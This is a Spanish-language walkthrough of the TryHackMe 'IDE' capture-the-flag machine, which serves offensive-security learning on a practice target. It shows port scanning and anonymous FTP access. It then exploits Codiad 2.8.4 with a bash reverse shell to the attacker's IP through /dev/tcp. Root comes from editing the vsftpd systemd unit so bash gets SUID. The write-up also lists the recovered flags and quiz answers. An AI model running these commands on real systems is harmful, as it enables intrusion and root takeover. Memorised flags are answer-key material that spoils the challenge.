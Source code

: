 # Máquina IDE

Dificultad --> Facil 

Instrucciones --> **Para poder resolver esta máquina tienes que registrarte en la página de TryHackMe y buscarla por el nombre de IDE**

'

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

'

## 1.Reconocmiento

![image](https://github.com/user-attachments/assets/2cfb7b62-1365-4b8f-a0e2-c160ccdde0ae)


Escaneando puertos y sus versiones utilizando el comando de nmap con diferentes parámetros

    sudo nmap -p- --open -sS -n -Pn -vvv 10.10.31.183 -T4
    
![image](https://github.com/user-attachments/assets/cdb49dd4-1483-4b66-8679-7b873a4235b9)


![image](https://github.com/user-attachments/assets/16abe497-965d-4660-8dc5-7e24049ae4d0)


    sudo nmap --open -sS -n -Pn -A -p 21,22,80,62337 -vvv 10.10.31.183 -T4


![image](https://github.com/user-attachments/assets/e3cd2024-b206-44d2-9987-86411d1ba7ed)

![image](https://github.com/user-attachments/assets/d54ba075-408d-42cf-894a-f3f38f0046ec)

![image](https://github.com/user-attachments/assets/8a20035b-1916-42e5-8f47-d5e28012af89)

### Resumen de la Información Obtenida

|IP             | Sistema OPerativo    | Puertos/Servicios        | 
|:------------: |:--------------------:| :-----------------------:| 
| 10.10.31.183  |Linux                 | 21  Ftp vsftpd 3.0.3     |
|               |                      | 22 Openssh 7.6p1         |
|               |                      | 80 hhttp apache 2.4.29   |
|               |                      | 62337 http apache 2.4.29 |


## 2. Análisis de Vulnerabilidades / Debilidades


Como tenemos un servidor http abrimos la dirección ip con el puerto 62337 e inspeccionando el código de la página encontramos que tenemos un Codiad 2.8.4


![image](https://github.com/user-attachments/assets/8fa820de-ef0a-4d24-abc6-edcc3af3d9e2)


Accedemos por ftp


![image](https://github.com/user-attachments/assets/973086c1-a5b8-41d1-889a-81ce35ce4349)


Una vez adentro nos movemos hacia atras hasta ncontrar un directorio que su nombre es un guion, el cual lo vamos a descargar en nuestra maquina


![image](https://github.com/user-attachments/assets/36fc4cd1-3b31-414e-948e-98a2110b1da2)


Nos  salimos, buscamos el archivo en nuestra maquina y lo copiamos con otro nombre archivo.txt, luego leemos su contenido con el comando cat.


![image](https://github.com/user-attachments/assets/368dd05d-5f11-45bb-b977-40c4b4b1e797)


## 3. Explotación

Podemos ver que el mensaje dice que hay dos usuario uno john y otro drac. Y que alguno de ellos tiene una contraseña por defecto.

ahora vamos a clonar un repositorio de GitHub para la vulnerabilidad de codiad


![image](https://github.com/user-attachments/assets/ba6e88f9-c61b-4ba0-9a8c-e2a1d0094fc4)


Creamos una carpeta y descargamos el exploit


![image](https://github.com/user-attachments/assets/3cd935c3-7bed-4ba3-b710-5732a43c47a2)


Ya tenemos el exploit si ejecutamos python2 exploit.py nos dirá como es la sintaxis correcta para poder ejecutarlo


![image](https://github.com/user-attachments/assets/805d1feb-eb7f-4c2e-a904-4913bcdace6f)


    python2 exploit.py http://10.10.152.247:62337/ john password 10.11.86.141 4444 linux


![image](https://github.com/user-attachments/assets/85a05733-5cfe-4a67-a9a4-de5aa25404df)


Una vez ejecutado nos dice que tenemos que ejecutar los siguientes comando en ventanas diferentes:


    echo 'bash -c "bash -i >/dev/tcp/10.11.86.141/4445 0>&1 2>&1"' | nc -lnvp 4444


![image](https://github.com/user-attachments/assets/97e82b16-3fc4-4dac-94b9-4ed979829192)


    nc -lnvp 4445


![image](https://github.com/user-attachments/assets/2dad69eb-6a3e-4c91-b542-c842595b464b)


Y proceder a darle “ y ”  


![image](https://github.com/user-attachments/assets/c14d3830-6f1e-47bf-8b93-dd92ccb2fa34)

![image](https://github.com/user-attachments/assets/1b9f598d-0558-422d-b992-0c511b3a995a)


ya una vez obtenida la conexión nos vamos al directorio raíz para buscar la carpeta home, en la carpeta drac encontramos la bandera user pero no tenemos permiso para leerla, usamos el comando:

    cat .bash_history

el cual nos permite ver un historial de los comando ejecutados en la maquina, tenemos una posible contraseña la cual es : **Th3dRaCULa1sR3a** 🔑


![image](https://github.com/user-attachments/assets/c9cae490-64b7-48fd-a2d4-0d8ad368af89)


Intentamos acceder por ssh con el usuario drac y la contraseña que conseguimos teniendo éxito


![image](https://github.com/user-attachments/assets/90a8cc57-f4e6-4743-97ac-8cdf25a474b5)


Ahora si podemos ver el contenido de la bandera user.txt 🚩 : 02930d21a8eb009f6d26361b2d24a466


![image](https://github.com/user-attachments/assets/ea291d66-7950-4d12-a5d0-5aa52c4926c0)


## 4. Escalación de privilegios

Ejecutamos el siguiente comando para ver como podemos escalar privilegios

    sudo -l


![image](https://github.com/user-attachments/assets/cc673bb8-ca7e-4f64-8a8e-8cb9cc106dc7)


Buscamos como escalar privilegios a través de esta vulnerabilidad 

/usr/sbin/service vsftpd restart


![image](https://github.com/user-attachments/assets/449f9fc2-c55c-49fb-94ed-5d21b19d3c5d)


Ahora vamos a modificar el archivo vsftpd service con el siguiente comando:

    nano /lib/systemd/system/vsftpd.service

    ExecStart=/bin/chmod 4777 /bin/bash

![image](https://github.com/user-attachments/assets/fd060e35-cc1d-4c6e-98b7-129f78eb578a)


Ejecutamos el comando y colocamos la contraseña de drac: 

    systemctl daemon-reload


![image](https://github.com/user-attachments/assets/0643083a-1297-44fe-a84d-efdcaa8c269f)


Y por ultimo el siguiente comando 

    sudo /usr/sbin/service vsftpd restart

Ahora vamos a buscar el SUID con que vamos a escalar privilegios

    find / -perm -4000 2>/dev/null


![image](https://github.com/user-attachments/assets/cc3bd6d8-a392-497b-8f0c-623b65ffcac4)



Buscamos en la pagina GtfoBins y ejecutamos el codigo que se nos indica

    bash -p


Ahora ya tenemos acceso como root y podemos ver el contenido de la bandera root 🚩:ce258cb16f47f1c66f0b0b77f4e0fb8d



## 4.Banderas 🏁

|user.txt | 02930d21a8eb009f6d26361b2d24a466 |
|:-------:|:--------------------------------:|
|root.txt | ce258cb16f47f1c66f0b0b77f4e0fb8d |


## 5.Extra 🚨

Acá las respuesta del cuestionario de TryHackMe 


user.txt 

02930d21a8eb009f6d26361b2d24a466 

root.txt 

ce258cb16f47f1c66f0b0b77f4e0fb8d 











